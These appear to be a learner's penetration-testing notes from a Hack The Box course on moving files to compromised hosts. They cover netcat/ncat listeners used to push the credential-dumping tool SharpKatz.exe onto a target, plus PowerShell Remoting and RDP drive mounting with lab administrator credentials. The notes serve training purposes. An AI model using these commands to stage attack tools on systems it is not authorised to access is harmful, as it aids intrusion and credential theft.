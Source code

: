 ```yaml
---
title: File Transfer - More
draft: false
tags:
---
```

## netcat

Start a listener on the target machine:

```shell-session
victim@target:~$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished:

```shell-session
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Connect to the target machine from attacker machine and send in the file:

```shell-session
jadu101@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

When using ncat, we need to specify `--send-only`:

```shell-session
jadu101@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

## Powershell

We can use PowerShell Remoting.

But we will need an admin access and winrm access for this.

Let's say we are moving file from DC01 to DATABASE01. 

Test the WinRM connection on DATABASE01:

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Create session variable to the remote target:

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

Copy file we want to transfer to DATABASE01 session:

```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

We can also copy file from DATABASE01 to DC01:

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP

We can usually copy-paste but sometimes this might not work.

We can mount folder to be safe.

Using redesktop:

```shell-session
jadu101@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Using xfreerdp:

```shell-session
jadu101@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

